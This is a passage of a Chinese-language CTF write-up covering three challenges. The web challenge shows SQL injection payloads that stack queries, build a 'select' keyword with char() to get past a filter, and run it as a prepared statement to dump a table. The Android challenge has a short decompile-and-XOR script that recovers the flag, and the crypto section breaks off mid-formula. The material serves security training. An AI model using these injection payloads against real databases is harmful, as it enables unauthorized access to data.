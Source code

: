 本题参考[BUUCTF-Web-随便注](https://www.jianshu.com/p/36f0772f5ce8)，稍微改一下参数即可

先弄出表名

```
w1nd');show tables;#
```

直接爆出数据库得到flag

```
w1nd');SET @sql=concat(char(115,101,108,101,99,116),'* from `1145141919810`');PREPARE jwt from @sql;EXECUTE jwt;#
```

![image-20200510122051057](https://i.loli.net/2020/05/10/HbfOsj16yntKoSD.png)

## ANDROID

### TestOnly? | Author：Ga1@xy，shallow

拿到apk文件，先用**dex2jar**反编译为jar文件，参考方法[百度经验](https://jingyan.baidu.com/article/d169e186031987436711d86e.html)

再用**jd-gui**反编译得到的jar文件，在最下面的**com.happy.testonly**找到main函数，可以看到这个函数最后得到了flag，接下来分析一下这个函数（个人理解）：

+ 有两个面对不同对象的a函数，一个b函数，一个I函数（没啥用），一个J函数（得到flag）
+ 第一个a函数面向字符（char类），第二个a函数面向字符串（String类）
+ b函数面向字符串，将字符串SHA1后`hexdigest()`
+ J函数创建了一个数组，与**localObject**进行按位异或操作得到flag

大体分析完代码含义，用python实现，即可得到flag

```python
from hashlib import sha1

flag = ''
loc = b'B08020D0FACFDAF81DB46890E4040EDBB8613DA5ABF038F8B86BD44525D2E27B26E22ACD06388112D8467FD688C79CC7EA83F27440577350E8168C2560368616'
loc = sha1(loc).hexdigest().encode()
arr = [85,95,5,83,75,96,94,0,17,61,102,87,80,123,4,105,85,83,101,109,55,85,23,48,106,1,40,7,97,31]
for i in range(len(arr)):
    flag += chr(arr[i] ^ loc[i])

print(flag.replace('flag','minil'))
```

## CRYPTO

### ιIl | Author：shallow

原题，soreat_u师傅在先知社区写过一篇十分详细的wp：https://xz.aliyun.com/t/7163

~~要不是比赛当天早上刚好跟别的师傅讨论这道题，还真写不出来~~

关键步骤是利用f与g，将r消去。而这里的f与g其实是同时满足
$$
fh \equiv g (mod \ p)
$$
